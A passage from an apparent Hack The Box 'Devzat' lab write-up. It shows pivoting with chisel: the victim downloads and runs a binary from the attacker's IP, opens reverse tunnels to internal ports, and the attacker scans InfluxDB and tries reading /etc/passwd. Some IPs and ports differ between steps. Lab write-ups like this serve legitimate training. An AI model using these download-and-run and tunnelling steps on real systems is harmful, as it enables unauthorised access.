 ```bash
mv ~/Downloads/chisel_1.7.6_linux_amd64.gz chisel.gz
gunzip chisel.gz
python3 -m http.server 80

./chisel server -reverse -p 1234
```

> **Victime Machine**:

```bash
wget http://10.10.14.29/chisel
chmod +x chisel
./chisel

./chisel client 10.10.14.15:1234 R:5000:127.0.0.1:5000 R:8086:127.0.0.1:8086 R:8446:127.0.0.1:8446
```

> **Attacker Machine**:

```bash
lsof -i:5000
lsof -i:8086
lsof -i:8443

nmap -sCV -p5000,8086,8443 127.0.0.1
# --> 8086/tcp open  http       InfluxDB http admin 1.7.5
```

<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_51.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_52.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_53.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_54.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I use `netcat` to try to connect to the different services, the only one that responds is port **8443**, whose response header shows me the same as the one for port **8000**. It is very likely that one is the **Production** project and the other is the **Development** project. If I access by **SSH** and see the available commands, one is now available that allows me to read files, but it asks me for a password.

```bash
nc 127.0.0.1 5000
nc localhost 5000
nc 127.0.0.1 8086
nc localhost 8086

nc 127.0.0.1 8443
# SSH-2.0-Go

nc 10.10.11.118 8000
# SSH-2.0-Go

ssh -l oldboy localhost -p 8443
  > /help
  > /commands
  > /file
  > /file /etc/passwd
```